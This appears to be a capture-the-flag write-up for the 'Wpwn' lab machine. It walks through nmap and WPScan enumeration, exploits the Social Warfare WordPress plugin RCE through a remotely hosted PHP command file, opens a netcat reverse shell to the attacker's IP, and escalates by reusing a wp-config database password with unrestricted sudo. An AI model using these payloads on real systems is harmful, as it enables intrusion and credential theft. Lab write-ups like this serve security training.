

# Wpwn


## Recon

Start with Nmap

```bash
nmap 192.168.128.123 -Pn -T3 -sV -sC

Nmap scan report for 192.168.128.123
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got two service running on the machine, `ssh (22)` and `http (80)`

Open the page, we got no hint



Let's enumerate the hidden directory with Gobuster

```bash
gobuster dir -u http://192.168.128.123/ -w /usr/share/wordlists/dirb/common.txt -t 10

===============================================================
2021/07/25 13:14:07 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 23] 
/robots.txt           (Status: 200) [Size: 57] 
/server-status        (Status: 403) [Size: 280]
/wordpress            (Status: 301) [Size: 322] [--> http://192.168.128.123/wordpress/]
                                                                                       
===============================================================
2021/07/25 13:16:15 Finished
===============================================================
```

Got two interesting directory, `robots.txt` and `wordpress`. First, check the `robots.txt`, maybe they leave us a hint


Direct us to another directory `secret`


Nothing, so jump to `/wordpress`


We've got a blog homepage which is **WordPress**, so try to enum more of this WordPress application with **WPScan** and we will find the **social-warfare** plugin is likely vulnerable to [Remote Code Execution (RCE)](https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-wordpress-social-warfare-plugin-cve-2019-9978/) because it's version is **3.5.2.**

```bash
[i] Plugin(s) Identified:

[+] social-warfare
 | Location: http://192.168.128.123/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2021-07-20T16:09:00.000Z
 | [!] The version is out of date, the latest version is 4.3.0
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Comment (Passive Detection)
 |
 | Version: 3.5.2 (100% confidence)
 | Found By: Comment (Passive Detection)
 |  - http://192.168.128.123/wordpress/, Match: 'Social Warfare v3.5.2'
 | Confirmed By:
 |  Query Parameter (Passive Detection)
 |   - http://192.168.128.123/wordpress/wp-content/plugins/social-warfare/assets/css/style.min.css?ver=3.5.2
 |   - http://192.168.128.123/wordpress/wp-content/plugins/social-warfare/assets/js/script.min.js?ver=3.5.2
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://192.168.128.123/wordpress/wp-content/plugins/social-warfare/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://192.168.128.123/wordpress/wp-content/plugins/social-warfare/readme.txt
```

## Exploit

To exploit this, we must **create a file** that contain our command 

```php
<pre>
system('cat /etc/passwd');
</pre>
```

Run web server in our attack machine `python3 -m http.server 80` to host our file so the target web server can load our command file. Go to url

```php
wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.128/command.txt
```

Then reload the page and confirm that our command is run


Now we can try to create **reverse shell command**

```php
<pre>
system('nc -e /bin/sh 192.168.49.128 4444')
</pre>
```

Reload the page and we got it


Enumerate the `/home/takis` directory to grab the user flag, we got no luck because the flag is in another file, after a little bit digger, we can found the user flag in `/var/www/local.txt`


## Privilege Escalation

Try to get all of information about the machine using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), we got a **database credential** in wordpress config file

```bash
[+] Searching Wordpress wp-config.php files
/var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress_db' );
define( 'DB_USER', 'wp_user' );
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );
define( 'DB_HOST', 'localhost' );
```

try to login as `takis` and the password we got on wordpress config file with SSH, now we can fully access the machine. Then to find which takis user can run command as root with `sudo -l`

```bash
takis@wpwn:~$ sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
```

From the `sudo -l` information, we can run all command with **sudo (root privilege)** without the password, so we don't need another action to escalate our current privilege. Locate the `/root` directory to find the root flag and grab them


